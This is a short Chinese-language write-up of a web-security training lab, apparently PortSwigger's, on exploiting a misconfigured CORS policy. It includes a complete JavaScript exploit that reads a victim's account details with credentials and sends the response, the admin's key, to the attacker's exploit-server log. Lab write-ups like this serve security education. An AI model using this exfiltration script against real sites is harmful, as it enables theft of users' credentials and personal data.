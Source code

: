 ![](img/bd33effca7e90dc363bc9ebcd95938ea.png)

我们的网站被列入 ACAO 的标题。现在我们知道我们的网络是易受攻击的，但问题是我们如何通过它访问管理密钥。我们需要编写一个 javascript 代码并将其托管在我们的漏洞利用服务器上，以便在受害者访问它时包含对请求的响应。

```
<html>
<body>
<script>
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0a08005b047893acc0ef1484004100a1.web-security-academy.net/accountDetails',true); 
req.withCredentials = true; req.send();  
function reqListener() {    
location='/log?key='+this.responseText; 
};
</script>
</body>
</html>
```

该脚本将向/accountDetails 发出请求，并将响应添加到我们的漏洞利用服务器日志中的链接。

将漏洞存储在我们的服务器上，然后将其发送给受害者，之后当我们检查访问日志时，我们可以看到管理员的信息被泄露。

![](img/b215265ced03745947109230afe1864f.png)

这就是错误配置的 CORS 实现泄露个人信息的方式。
